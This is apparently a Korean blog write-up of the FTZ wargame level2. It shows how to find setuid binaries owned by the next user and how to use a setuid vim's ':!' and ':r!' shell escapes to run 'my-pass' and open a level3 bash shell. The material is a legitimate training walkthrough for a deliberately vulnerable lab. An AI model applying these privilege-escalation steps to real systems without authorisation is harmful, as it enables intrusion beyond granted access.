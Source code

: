 ```yaml
---
layout: post
title: FTZ Level2
categories: [Wargame]
comments: true
---
```


level1에서 획득한 패스워드를 이용하여 level2에 접속합니다.

```
[level2@ftz level2]$ ls -l
total 12
-rw-r--r--    1 root     root           60 Mar 23  2000 hint
drwxr-xr-x    2 root     level2       4096 Feb 24  2002 public_html
drwxrwxr-x    2 root     level2       4096 May 22 00:27 tmp

[level2@ftz level2]$ cat hint 

텍스트 파일 편집 중 쉘의 명령을 실행시킬 수 있다는데...
```

우선 다음 권한을 획득해야 하므로 `find`명령을 이용하여 level3의 프로그램을 찾도록 하겠습니다.

```
[level2@ftz level2]$ find / -user level3 -perm +6000 2>/dev/null

/usr/bin/editor
```


이런 파일 한개가 나오게 되었습니다. 힌트와 같이 편집기로 추정되는 파일이므로 아마 이 프로그램에서 사용되는 기능으로 추정됩니다.

그럼 이 프로그램을 실행시켜 보겠습니다.
```
~
~
~                            VIM - Vi IMproved
~
~                             version 6.1.320
~                         by Bram Moolenaar et al.
~               Vim is open source and freely distributable
~
~                      Help poor children in Uganda!
~              type  :help iccf<Enter>       for information
~
~              type  :q<Enter>               to exit
~              type  :help<Enter>  or  <F1>  for on-line help
~              type  :help version6<Enter>   for version info
~
~
~
```

이러한 프로그램이 시작되었습니다. vi 편집기가 실행되었는데, vi편집기의 기능을 이용하는 것임을 알 수 있습니다. vi에서 명령을 실행시킬수 있는데, :을 입력해 보겠습니다.

```
~
~
~                            VIM - Vi IMproved
~
~                             version 6.1.320
~                         by Bram Moolenaar et al.
~               Vim is open source and freely distributable
~
~                      Help poor children in Uganda!
~              type  :help iccf<Enter>       for information
~
~              type  :q<Enter>               to exit
~              type  :help<Enter>  or  <F1>  for on-line help
~              type  :help version6<Enter>   for version info
~
~
~
:
```

이렇게 옵션을 사용할 수 있는 상태가 되게 되는데, 이때 **w**를 입력하고 엔터를 누르게 될 경우 저장, **q**를 누르고 엔터를 누르면 끝내기와 같은 기능이 있습니다. 이 외에도 많은 기능이 있습니다.

그 기능중에 명령을 실행 시킬 수 있는 옵션이 있는데, 그 옵션은 `!`를 이용하는 옵션입니다. !를 입력하고 기능을 실행하면 그 기능을 쉘에서 실행시키는 것과 같이 실행할 수 있습니다. 그 방법 외에도 실행시킨 결과를 편집기로 저장하는 방법이 있는데 `r!`를 사용하는 방법이 있습니다.

```
total 12
-rw-r--r--    1 root     root           60 Mar 23  2000 hint
drwxr-xr-x    2 root     level2       4096 Feb 24  2002 public_html
drwxrwxr-x    2 root     level2       4096 May 22 00:27 tmp
~
~
~
~
~
~
~
~
~
~
~
~
~
:r!ls -l
```

와 같이 사용하게 될 경우 ls -l옵션을 출력하는데 그 출력 결과를 편집기로 보내어 저장을 할 수 있는 상태로 만듭니다. 이러한 식으로 my-pass명령을 사용하게 되면 비밀번호 출력 결과를 편집기에 출력하게 되므로 다음단계 비밀번호를 알아낼 수 있습니다.

my-pass명령 뿐만 아니라 `bash`와 같이 쉘을 실행시키는 옵션도 가능합니다. bash를 실행 시켜 보겠습니다.

```
[level3@ftz level2]$ id
uid=3003(level3) gid=3002(level2) groups=3002(level2)
[level3@ftz level2]$ 
```

이러한 식으로 권한을 획득할 수도 있습니다.

```
^[[H^[[2J
Level3 Password is "            ".
 
~
~
~
~
~
~
~
~
~
~
~
~
~
~
:r!my-pass
```